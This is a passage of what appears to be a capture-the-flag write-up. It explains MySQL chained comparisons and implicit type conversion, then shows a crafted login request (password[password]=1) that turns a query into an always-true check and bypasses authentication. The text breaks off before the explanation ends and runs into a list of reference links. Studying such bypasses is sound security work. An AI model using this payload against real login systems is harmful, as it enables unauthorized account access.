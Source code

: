 ## MySQL Chained Comparison

*MySQL* allows you to have chained comparison in *where clause*! for example following query contains chained comparison in its *where clause*:

```
select * from someTable where one = two = three
```

Where `one`, `two` and `three` can be columns or values.

One important point to exploit this website is to know how *Chained Comparisons* will be evaluated.

In summary, *MySQL* Starts from most left comparison and evalutates it. Then after determining results as `false` or `true`, it continues to the most right comparison.  
For example The last query is equivalent with following one:

```
select * from someTable where (one = two) = three;
```

NOTE: `(one = two)` will be replaced by `true` or `false` depending on values.

You can find more details [here][mySQLChainedComp].

## MySQL Implicit Type Conversion
When it comes to mathematical computation(including both operations and comparisons), MySQL [tries to convert][mySQLConversion] all operands to the same type:

>When an operator is used with operands of different types, type conversion occurs to make the operands compatible. Some conversions occur implicitly. For example, MySQL automatically converts strings to numbers as necessary, and vice versa. 

```
mysql> SELECT 1+'1';
        -> 2
mysql> SELECT CONCAT(2,' test');
        -> '2 test'
```

Having this piece of puzzle, we are ready to connect all of this information and write our exploit:)

## Exploit

To exploit vulnerability, we should send following request:

```
username=parcham&password[password]=1
```

This request results in following query in server side:

```
    Select * from users where username = 'parcham' and password = `password` = '1' order by id; 
```

First off, MySQL evaluates `` password = `password` ``! This is true and hence it will return `1` and query is equivalent with following query:


[jinjaFilters]: https://jinja.palletsprojects.com/en/2.10.x/templates/#list-of-builtin-filters
[mainFlask]: https://flask.palletsprojects.com/en/2.0.x/
[requestFlask]: https://flask.palletsprojects.com/en/2.0.x/api/#flask.request
[flaskApplication]: https://flask.palletsprojects.com/en/2.0.x/api/#flask.Request.application
[charToHex]: https://www.rapidtables.com/convert/number/ascii-to-hex.html
[dumpPart2]: ./part1/dumpPart2/
[code]: ./part2/app.js
[expressURLE]: https://expressjs.com/en/api.html#express.urlencoded
[qs]: https://www.npmjs.com/package/qs#readme
[prototypePollution]: https://www.neuralegion.com/blog/prototype-pollution/
[npmmysql]: https://www.npmjs.com/package/mysql
[npmmysqlescape]: https://www.npmjs.com/package/mysql#escaping-query-values
[mySQLBool]: https://www.mysqltutorial.org/mysql-boolean/
[mySQLChainedComp]: https://stackoverflow.com/q/28952960/10813146
[mySQLConversion]: https://dev.mysql.com/doc/refman/8.0/en/type-conversion.html
[shellScript]: ./part1/exploit.sh
[shellScript2]: ./part2/exploit.sh
[record]: https://mega.nz/file/dlUiBLjJ#TgLrkoDU1UU6GLUusC8uSneww1ynFGkmHd3rvIiysGc